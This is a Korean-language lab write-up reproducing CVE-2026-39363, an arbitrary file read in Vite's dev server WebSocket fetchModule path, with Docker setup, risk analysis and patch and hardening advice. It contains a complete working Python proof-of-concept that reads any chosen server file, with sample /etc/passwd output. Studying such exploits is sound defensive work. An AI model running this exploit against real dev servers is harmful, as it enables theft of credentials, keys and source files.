




# CVE-2026-39363 - Vite Dev Server WebSocket Arbitrary File Read

## 1. 취약점 요약

CVE-2026-39363은 Vite Development Server에서 발생한 임의 파일 읽기 취약점이다.

Vite Dev Server는 개발 환경에서 Hot Module Replacement(HMR)를 위해 WebSocket을 사용한다. 취약한 버전에서는 WebSocket으로 노출되는 `fetchModule` 호출 경로에 대해 `server.fs` 접근 제한이 제대로 적용되지 않는다.

공격자는 Vite Dev Server의 WebSocket에 `Origin` 헤더 없이 연결한 뒤, `vite:invoke` 이벤트를 통해 `fetchModule`을 호출할 수 있다. 이때 `file://...` URL과 `?raw` 또는 `?inline`을 조합하면 서버 내부 파일 내용을 JavaScript 문자열 형태로 읽을 수 있다.

실습에서는 `vite@7.3.1` 환경을 Docker로 구성하고, WebSocket 기반 PoC를 통해 컨테이너 내부의 `/etc/passwd` 파일이 노출되는 것을 확인한다.

실습은 원격 코드 실행이 아니라 임의 파일 읽기 재현에 초점을 둔다.

## 2. 환경 구성

### 테스트 대상

- Product: Vite
- Component: Vite Development Server
- Version: 7.3.1
- CVE: CVE-2026-39363
- Vulnerability Type: Arbitrary File Read / Information Disclosure
- Base Image: `node:22-bookworm-slim`
- Test Port: `5173`

### 파일 구성

```text
Vite/CVE-2026-39363/
├── Dockerfile
├── docker-compose.yml
├── package.json
├── vite.config.js
├── index.html
├── poc.py
├── README.md
└── images/
    ├── 1_env_up.png
    ├── 2_normal_page.png
    ├── 3_http_blocked.png
    └── 4_poc_result.png
```

### Dockerfile

```dockerfile
FROM node:22-bookworm-slim

WORKDIR /app

COPY package.json ./
RUN npm install --no-audit --no-fund

COPY index.html ./
COPY vite.config.js ./

EXPOSE 5173

CMD ["npm", "run", "dev"]
```

### docker-compose.yml

```yaml
services:
  vite:
    build:
      context: .
    container_name: cve-2026-39363-vite
    ports:
      - "5173:5173"
```

### package.json

```json
{
  "name": "cve-2026-39363-vite-lab",
  "version": "1.0.0",
  "private": true,
  "type": "module",
  "scripts": {
    "dev": "vite"
  },
  "dependencies": {
    "vite": "7.3.1"
  }
}
```

### vite.config.js

```javascript
import { defineConfig } from "vite";

export default defineConfig({
  server: {
    host: "0.0.0.0",
    port: 5173,
    strictPort: true,
    fs: {
      strict: true
    }
  }
});
```

위 설정은 Vite Dev Server를 컨테이너 외부에서 접근할 수 있도록 `0.0.0.0:5173`으로 실행하기 위한 설정이다.

`fs.strict: true`는 일반 HTTP 파일 접근 경로에서 프로젝트 루트 외부 파일 접근이 차단되는 것을 확인하기 위해 사용하였다. 본 실습에서는 일반 HTTP 경로에서는 `/etc/passwd` 접근이 차단되지만, WebSocket `fetchModule` 경로에서는 동일 파일이 노출되는 차이를 확인한다.

### index.html

```html
<!doctype html>
<html lang="ko">
  <head>
    <meta charset="UTF-8" />
    <title>CVE-2026-39363 Vite Lab</title>
  </head>
  <body>
    <h1>CVE-2026-39363 Vite Vulnerable Lab</h1>
    <p>Vite Dev Server WebSocket Arbitrary File Read</p>

    <script type="module">
      console.log("CVE-2026-39363 vulnerable Vite lab is running.");
    </script>
  </body>
</html>
```

## 3. 취약 조건

취약점이 재현되기 위한 조건은 다음과 같다.

1. 취약한 Vite 버전을 사용한다.
2. Vite Dev Server가 `--host` 또는 `server.host` 설정으로 네트워크에 노출되어 있다.
3. Vite Dev Server의 WebSocket 기능이 비활성화되어 있지 않다.
4. 공격자가 Vite HMR WebSocket에 접근할 수 있다.
5. WebSocket 요청에서 `Origin` 헤더 없이 연결할 수 있다.
6. 공격자가 `vite:invoke` 이벤트를 통해 `fetchModule`을 호출할 수 있다.

실습에서는 취약 버전인 `vite@7.3.1`을 사용하고, `vite.config.js`에서 `server.host`를 `0.0.0.0`으로 설정하여 취약 조건을 구성하였다.

## 4. 실행 방법

### 4.1 취약 환경 실행

```bash
docker compose up -d --build
```

위 명령 하나로 Vite Dev Server 취약 환경이 구성되고 `localhost:5173`에서 실행된다.

### 4.2 컨테이너 실행 확인

```bash
docker compose ps
```

정상 실행 시 `cve-2026-39363-vite` 컨테이너가 실행 중이어야 한다.

### 4.3 정상 페이지 확인

```bash
curl http://localhost:5173/
```

또는 브라우저에서 다음 주소에 접속한다.

```text
http://localhost:5173/
```

정상적으로 실행되면 다음 문구가 포함된 HTML 응답이 출력된다.

```text
CVE-2026-39363 Vite Vulnerable Lab
Vite Dev Server WebSocket Arbitrary File Read
```

## 5. HTTP 경로 차단 확인

먼저 일반 HTTP 경로로 `/etc/passwd` 접근을 시도한다.

```bash
curl -i "http://localhost:5173/@fs/etc/passwd?raw"
```

예상 결과는 `403 Forbidden` 또는 restricted 관련 응답이다.

예상 응답 예시는 다음과 같다.

```text
HTTP/1.1 403 Forbidden
...
The request url "/etc/passwd" is outside of Vite serving allow list.
```

이는 일반 HTTP 파일 접근 경로에서는 Vite의 파일 시스템 접근 제한이 적용되어 프로젝트 루트 외부 파일 접근이 차단됨을 보여준다.

## 6. PoC 코드

`poc.py`는 Python 표준 라이브러리만 사용한다. 따라서 `requests`, `websocket-client` 같은 별도 패키지 설치가 필요하지 않다.

```python
import base64
import json
import os
import re
import socket
import ssl
import struct
import sys
from urllib.parse import quote, urlparse
import http.client


DEFAULT_TARGET_FILE = "/etc/passwd"


def usage():
    print("Usage: python poc.py http://localhost:5173")
    print("       python poc.py http://localhost:5173 /etc/passwd")


def get_http_connection(parsed):
    port = parsed.port
    if port is None:
        port = 443 if parsed.scheme == "https" else 80

    if parsed.scheme == "https":
        return http.client.HTTPSConnection(parsed.hostname, port, timeout=5)

    return http.client.HTTPConnection(parsed.hostname, port, timeout=5)


def fetch_vite_client(target):
    parsed = urlparse(target)
    conn = get_http_connection(parsed)

    try:
        conn.request("GET", "/@vite/client")
        response = conn.getresponse()
        body = response.read().decode("utf-8", errors="replace")
        return response.status, body
    finally:
        conn.close()


def extract_ws_token(vite_client_body):
    patterns = [
        r'wsToken\s*=\s*"([^"]+)"',
        r"wsToken\s*=\s*'([^']+)'",
        r'const\s+wsToken\s*=\s*"([^"]+)"',
        r"const\s+wsToken\s*=\s*'([^']+)'",
    ]

    for pattern in patterns:
        match = re.search(pattern, vite_client_body)
        if match:
            return match.group(1)

    return None


def create_socket(parsed, port):
    sock = socket.create_connection((parsed.hostname, port), timeout=5)

    if parsed.scheme == "https":
        context = ssl.create_default_context()
        sock = context.wrap_socket(sock, server_hostname=parsed.hostname)

    sock.settimeout(8)
    return sock


def websocket_handshake(sock, parsed, path):
    key = base64.b64encode(os.urandom(16)).decode("ascii")

    port = parsed.port
    if port is None:
        port = 443 if parsed.scheme == "https" else 80

    host_header = parsed.hostname
    default_port = 443 if parsed.scheme == "https" else 80

    if port != default_port:
        host_header = f"{parsed.hostname}:{port}"

    request = (
        f"GET {path} HTTP/1.1\r\n"
        f"Host: {host_header}\r\n"
        "Upgrade: websocket\r\n"
        "Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: {key}\r\n"
        "Sec-WebSocket-Version: 13\r\n"
        "Sec-WebSocket-Protocol: vite-hmr\r\n"
        "\r\n"
    )

    sock.sendall(request.encode("ascii"))

    response = b""
    while b"\r\n\r\n" not in response:
        chunk = sock.recv(4096)
        if not chunk:
            break
        response += chunk

    decoded = response.decode("utf-8", errors="replace")
    status_line = decoded.split("\r\n", 1)[0]

    if "101" not in status_line:
        raise RuntimeError(f"WebSocket handshake failed:\n{decoded}")

    return decoded


def send_ws_text(sock, message):
    payload = message.encode("utf-8")

    first_byte = 0x81
    mask_bit = 0x80
    length = len(payload)

    if length < 126:
        header = struct.pack("!BB", first_byte, mask_bit | length)
    elif length < 65536:
        header = struct.pack("!BBH", first_byte, mask_bit | 126, length)
    else:
        header = struct.pack("!BBQ", first_byte, mask_bit | 127, length)

    mask_key = os.urandom(4)
    masked_payload = bytes(payload[i] ^ mask_key[i % 4] for i in range(length))

    sock.sendall(header + mask_key + masked_payload)


def recv_exact(sock, size):
    data = b""

    while len(data) < size:
        chunk = sock.recv(size - len(data))
        if not chunk:
            raise ConnectionError("Connection closed while reading WebSocket frame")
        data += chunk

    return data


def recv_ws_frame(sock):
    header = recv_exact(sock, 2)
    first_byte, second_byte = header

    opcode = first_byte & 0x0F
    masked = second_byte & 0x80
    length = second_byte & 0x7F

    if length == 126:
        length = struct.unpack("!H", recv_exact(sock, 2))[0]
    elif length == 127:
        length = struct.unpack("!Q", recv_exact(sock, 8))[0]

    mask_key = b""

    if masked:
        mask_key = recv_exact(sock, 4)

    payload = recv_exact(sock, length) if length else b""

    if masked:
        payload = bytes(payload[i] ^ mask_key[i % 4] for i in range(length))

    return opcode, payload


def send_pong(sock, payload):
    first_byte = 0x8A
    mask_bit = 0x80
    length = len(payload)

    if length < 126:
        header = struct.pack("!BB", first_byte, mask_bit | length)
    elif length < 65536:
        header = struct.pack("!BBH", first_byte, mask_bit | 126, length)
    else:
        header = struct.pack("!BBQ", first_byte, mask_bit | 127, length)

    mask_key = os.urandom(4)
    masked_payload = bytes(payload[i] ^ mask_key[i % 4] for i in range(length))

    sock.sendall(header + mask_key + masked_payload)


def main():
    if len(sys.argv) not in (2, 3):
        usage()
        sys.exit(1)

    target = sys.argv[1].rstrip("/")
    target_file = sys.argv[2] if len(sys.argv) == 3 else DEFAULT_TARGET_FILE
    payload_module = f"file://{target_file}?raw"

    parsed = urlparse(target)

    if parsed.scheme not in ("http", "https") or not parsed.hostname:
        print("[-] Invalid target URL.")
        usage()
        sys.exit(1)

    port = parsed.port
    if port is None:
        port = 443 if parsed.scheme == "https" else 80

    print(f"[*] Target: {target}")
    print(f"[*] File to read: {target_file}")
    print(f"[*] Module payload: {payload_module}")

    status, vite_client_body = fetch_vite_client(target)

    if status != 200:
        print(f"[-] Failed to fetch /@vite/client. HTTP status: {status}")
        sys.exit(1)

    token = extract_ws_token(vite_client_body)

    if token:
        ws_path = f"/?token={quote(token)}"
        print("[*] WebSocket token found in /@vite/client.")
    else:
        ws_path = "/"
        print("[*] WebSocket token was not found. Trying without token.")

    payload = {
        "type": "custom",
        "event": "vite:invoke",
        "data": {
            "id": "invoke_0",
            "name": "fetchModule",
            "data": [payload_module]
        }
    }

    sock = None
    received_messages = []

    try:
        sock = create_socket(parsed, port)
        websocket_handshake(sock, parsed, ws_path)

        print("[*] WebSocket connected without Origin header.")
        print("[*] Sending vite:invoke fetchModule payload...")

        send_ws_text(sock, json.dumps(payload))

        while True:
            opcode, frame_payload = recv_ws_frame(sock)

            if opcode == 0x8:
                print("[-] WebSocket connection closed by server.")
                break

            if opcode == 0x9:
                send_pong(sock, frame_payload)
                continue

            if opcode not in (0x1, 0x0):
                continue

            text = frame_payload.decode("utf-8", errors="replace")
            received_messages.append(text)

            print("[*] Received WebSocket message:")
            print(text)

            if "root:x:" in text or "root:" in text:
                print("[+] Vulnerability reproduced: arbitrary file read succeeded.")
                return

    except Exception as error:
        print(f"[-] Exploit failed: {error}")
        sys.exit(1)

    finally:
        if sock is not None:
            sock.close()

    print("[-] Vulnerability was not reproduced.")

    if received_messages:
        print("[*] Received messages:")
        for message in received_messages:
            print(message)

    sys.exit(1)


if __name__ == "__main__":
    main()
```

## 7. 재현 절차

### 7.1 PoC 실행

Windows CMD에서는 다음 명령을 사용한다.

```bash
python poc.py http://localhost:5173
```

Linux 또는 macOS에서는 다음 명령을 사용할 수 있다.

```bash
python3 poc.py http://localhost:5173
```

성공 시 `/etc/passwd` 파일 내용이 WebSocket 응답에 포함된다.

### 7.2 특정 파일 경로 지정

기본값은 `/etc/passwd`이다. 다른 파일을 확인하려면 두 번째 인자로 파일 경로를 지정한다.

```bash
python poc.py http://localhost:5173 /etc/passwd
```

## 8. 실행 결과

### 8.1 정상 페이지 확인

```text
CVE-2026-39363 Vite Vulnerable Lab
Vite Dev Server WebSocket Arbitrary File Read
```

### 8.2 HTTP 경로 접근 차단

```text
HTTP/1.1 403 Forbidden
...
The request url "/etc/passwd" is outside of Vite serving allow list.
```

### 8.3 WebSocket PoC 실행 결과

```text
[*] Target: http://localhost:5173
[*] File to read: /etc/passwd
[*] Module payload: file:///etc/passwd?raw
[*] WebSocket token found in /@vite/client.
[*] WebSocket connected without Origin header.
[*] Sending vite:invoke fetchModule payload...
[*] Received WebSocket message:
...
root:x:0:0:root:/root:/bin/bash
...
[+] Vulnerability reproduced: arbitrary file read succeeded.
```

위 결과를 통해 일반 HTTP 파일 접근 경로에서는 `/etc/passwd` 접근이 차단되지만, WebSocket `fetchModule` 호출 경로에서는 동일 파일이 노출되는 것을 확인하였다.

## 9. 스크린샷

### 9.1 Docker 환경 실행



### 9.2 정상 페이지 확인



### 9.3 HTTP 경로 접근 차단 확인



### 9.4 PoC 실행 결과



## 10. 위험도 분석

취약점은 인증되지 않은 원격 공격자가 Vite Dev Server의 WebSocket에 접근할 수 있을 때 서버 내부 파일을 읽을 수 있다는 점에서 위험도가 높다.

CVSS 관점에서 보면 다음과 같이 판단할 수 있다.

- Attack Vector: Network
- Attack Complexity: Low
- Attack Requirements: Present
- Privileges Required: None
- User Interaction: None
- Vulnerable System Confidentiality Impact: High
- Vulnerable System Integrity Impact: None
- Vulnerable System Availability Impact: None

실습에서는 원격 코드 실행이 아니라 임의 파일 읽기만 재현하였다. 따라서 기밀성 영향은 높지만, 무결성 및 가용성 영향은 제한적으로 판단하였다.

다만 실제 개발 환경에서 `.env`, SSH 키, API 토큰, 설정 파일, 소스 코드 등이 노출될 경우 추가적인 침해로 이어질 수 있다.

## 11. 대응 방안

### 11.1 Vite 업데이트

취약한 Vite 버전을 사용하지 않고 보안 패치가 적용된 버전으로 업데이트한다.

영향을 받는 버전과 패치 버전은 다음과 같다.

- Vite `6.0.0` 이상 `6.4.1` 이하 → `6.4.2` 이상으로 업데이트
- Vite `7.0.0` 이상 `7.3.1` 이하 → `7.3.2` 이상으로 업데이트
- Vite `8.0.0` 이상 `8.0.4` 이하 → `8.0.5` 이상으로 업데이트

예시:

```bash
npm install vite@7.3.2
```

또는 최신 안정 버전으로 업데이트한다.

```bash
npm install vite@latest
```

### 11.2 Dev Server 외부 노출 금지

Vite Dev Server는 개발용 서버이므로 운영 환경에 노출하지 않아야 한다.

가능하면 다음과 같이 로컬에서만 접근 가능하게 실행한다.

```bash
vite --host 127.0.0.1
```

또는 `vite.config.js`에서 다음과 같이 설정한다.

```javascript
export default {
  server: {
    host: "127.0.0.1"
  }
}
```

### 11.3 WebSocket 접근 제한

Vite Dev Server를 외부에서 접근 가능한 환경으로 실행해야 한다면 WebSocket 접근을 제한하거나, 방화벽, VPN, 프록시 인증 등을 사용해 신뢰할 수 있는 사용자만 접근 가능하도록 구성한다.

### 11.4 민감 파일 관리

개발 서버가 실행되는 환경에 `.env`, 개인 키, API 토큰, 클라우드 인증 파일 등 민감 정보가 존재하지 않도록 관리한다.

특히 개발 서버 컨테이너 또는 개발 머신에 다음과 같은 파일이 노출되지 않도록 주의해야 한다.

```text
.env
.env.local
id_rsa
*.pem
*.key
cloud credential files
```

### 11.5 로그 모니터링

다음과 같은 요청 또는 WebSocket 이벤트가 발생하는지 점검한다.

```text
/@vite/client
vite:invoke
fetchModule
file://
?raw
?inline
```

## 12. 재현성 고려사항

실습 환경은 채점자가 동일한 절차로 취약점을 재현할 수 있도록 다음 사항을 고려하여 구성하였다.

1. `docker compose up -d --build` 명령 하나로 취약 환경이 생성되도록 구성하였다.
2. Docker Official Image인 `node:22-bookworm-slim`을 기반으로 사용하였다.
3. 취약한 Vite 버전인 `vite@7.3.1`을 `package.json`에 명시하였다.
4. Vite Dev Server 설정은 `vite.config.js`에 명시하였다.
5. PoC는 Python 표준 라이브러리만 사용하여 별도 패키지 설치가 필요하지 않다.
6. 성공 여부는 WebSocket 응답 내 `root:` 문자열 포함 여부로 확인할 수 있다.
7. 외부 API나 별도 서버에 의존하지 않고 로컬 Docker 환경에서 재현 가능하다.

## 13. 정리

CVE-2026-39363은 Vite Development Server의 WebSocket `fetchModule` 호출 경로에서 파일 접근 제한이 제대로 적용되지 않아 발생한 임의 파일 읽기 취약점이다.

실습에서는 Docker 기반으로 `vite@7.3.1` 취약 환경을 구성하고, WebSocket `vite:invoke` 이벤트를 이용해 `/etc/passwd` 파일이 노출되는 것을 확인하였다.

이를 통해 개발 서버를 외부에 노출하는 행위가 민감 파일 노출로 이어질 수 있음을 확인하였다.

## 14. 참고 자료

- CVE Record / NVD: https://nvd.nist.gov/vuln/detail/CVE-2026-39363
- GitHub Advisory: https://github.com/advisories/GHSA-p9ff-h696-f583
- OSV Advisory: https://osv.dev/vulnerability/GHSA-p9ff-h696-f583
- Vite: https://vite.dev/
